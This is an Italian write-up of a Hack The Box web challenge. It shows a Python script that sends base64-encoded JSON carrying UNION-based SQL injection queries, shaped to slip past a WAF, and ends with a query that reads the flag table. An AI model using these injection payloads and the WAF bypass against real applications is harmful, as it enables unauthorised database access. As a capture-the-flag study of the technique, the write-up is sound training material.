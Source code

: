 ## Information Gathering

Avviata l'istanza ne verifico l'entità. Essendo una web challenge mi aspetto un servizio in ascolto sulla porta 80.

Trovo un servizio con diversi errori PHP. Quindi aggiusto l'URL con i parametri HTML mancanti per arrivare a zero errori:

/obj=*String_b64_encoded*

A questo punto provo ad eseguire delle query per testare la vulnerabilità a SQLi. (Siccome diventa troppo meccanica la cosa scrivo uno scriptino in python):

```
import base64
import requests
from bs4 import BeautifulSoup as bs

url = "http://docker.hackthebox.eu:31671/?obj="

payload = base64.b64encode(
    "{\"ID\":\"'UNION SELECT * FROM (SELECT 1)a JOIN (SELECT schema_name FROM information_schema.schemata)b#\"}")

send = url + payload
result = requests.get(send)
flag = bs(result.text, 'html.parser')
flag.prettify()
print "[*] URL: {} \n".format(send)
print flag.center.get_text()
```
La query è stata così formattata per bypassare il WAF poiché una query del tipo "{\"ID\":\"'UNION SELECT 1,2\"}" risulta essere bloccata.

Dopo una serie di query arrivo al nome della tabella e della colonna a me interessata:

> "{\"ID\":\"'UNION SELECT * FROM (SELECT 1)a JOIN (SELECT * FROM ezpz.FlagTableUnguessableEzPZ)b#\"}"
